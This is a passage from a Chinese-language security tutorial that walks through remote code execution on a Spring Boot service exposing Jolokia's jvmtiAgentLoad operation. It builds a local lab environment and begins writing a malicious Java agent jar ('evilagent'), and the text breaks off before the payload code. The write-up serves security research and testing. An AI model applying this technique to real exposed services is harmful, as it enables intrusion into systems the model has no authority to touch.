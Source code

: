 **版本限制：** 

*   大于等于JDK9

`JDK8`及其以下的`jolokia`的`com.sun.management`未能找到`jvmtiAgentLoad`操作。

[环境搭建](#toc__9)
---------------

**Macos下idea直接启动`Spring`服务（JDK11）**

配置一个存在`actuator/jolokia`接口的`Spring`服务，可以参考`Landgrey`师父的[环境](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)。配置好`Idea`后启动服务

[![](https://storage.tttang.com/media/attachment/2022/11/29/6093b11f-239a-4503-8aed-755bbd586c80.png)
](https://storage.tttang.com/media/attachment/2022/11/29/6093b11f-239a-4503-8aed-755bbd586c80.png)

使用浏览器访问 **[http://127.0.0.1:9094](http://127.0.0.1:9094/)**

[![](https://storage.tttang.com/media/attachment/2022/11/29/4d7c76c2-69aa-4be2-bd6b-1ff95917c080.png)
](https://storage.tttang.com/media/attachment/2022/11/29/4d7c76c2-69aa-4be2-bd6b-1ff95917c080.png)

如上图所示，环境搭建成功

[攻击](#toc__10)
--------------

1.  访问: [http://localhost:9094/jolokia/list](http://localhost:9094/jolokia/list) 搜索`jvmtiAgentLoad`，可以看到存在该操作。

[![](https://storage.tttang.com/media/attachment/2022/11/29/9204fb81-d2a5-4195-aaf3-24cafc614125.png)
](https://storage.tttang.com/media/attachment/2022/11/29/9204fb81-d2a5-4195-aaf3-24cafc614125.png)

该操作的利用涉及到一个概念`JVMTI`，参考`pyn3rd`师傅的[文章](http://tttang.com/archive/1831/#toc_jvmtiinstrument)。大概了解是什么意思后，我们知道需要实现一个`Java Agent Jar`，供`jvmtiAgentLoad`加载实现RCE。

1.  实现`JavaAgent Jar`。其目录结构，及各个文件内容如下：

`j7ur8@192 /tmp % tree evilagent 
evilagent
├── META-INF
│   └── MANIFEST.MF
├── evil.jar
└── org
    └── example
        └── JavaAgent.java

3 directories, 3 files
j7ur8@192 /tmp % cat evilagent/META-INF/MANIFEST.MF 
Manifest-Version: 1.0
Agent-Class: org.example.JavaAgent

j7ur8@192 /tmp % cat evilagent/org/example/JavaAgent.java
package org.example;

import java.lang.instrument.Instrumentation;
